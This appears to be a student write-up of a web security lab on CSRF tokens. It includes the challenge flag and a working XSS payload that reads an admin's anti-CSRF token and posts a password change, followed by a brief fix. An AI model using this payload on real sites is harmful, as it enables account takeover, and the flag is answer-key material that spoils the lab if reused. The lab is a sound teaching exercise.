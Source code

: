 # Advanced CSRF

> 1. Qu'est qu'un jeton anti-CSRF, comment fonctionne-t-il ? 

An anti-CSRF token is a unique token added to HTTP requests to verify their authenticity, preventing malicious actions initiated by other sites. The server checks that the token matches the one generated for the user.

> 2. Comment déterminer si le formulaire est protégé par un jeton anti-CSRF ?

One needs to inspect the form and check for any hidden fields where the anti-CSRF token would have been put. 

> 3. Le site est égaliement vulnérable à une attaque XSS. Quel est le flag du challenge ? Décrivez l'attaque.

`4q9HrLsBDWp/eBba`

```javascript
<script>
fetch("/profile/quentin.surdez_admin", {
    credentials: "include",
    method: "GET"
    })
        .then(response => response.text())
        .then(html => {
            const parser = new DOMParser();
            const doc = parser.parseFromString(html, "text/html");
            const csrfTokenElement = doc.querySelector('input[name="_csrf"]');
            if (csrfTokenElement) {
                const csrfToken = csrfTokenElement.value;
                fetch("/profile/quentin.surdez_admin", {
                    credentials: "include",
                    method: "POST",
                    body: "password=pwnd&_csrf=" + csrfToken,
                    headers: {
                        "Content-type": "application/x-www-form-urlencoded; charset=utf-8"
                    }
                })
            }
    })
</script>
```

> 4. Comment corrigeriez-vous la vulnérabilité ? 

User-generated content should be properly sanitized before it is rendered.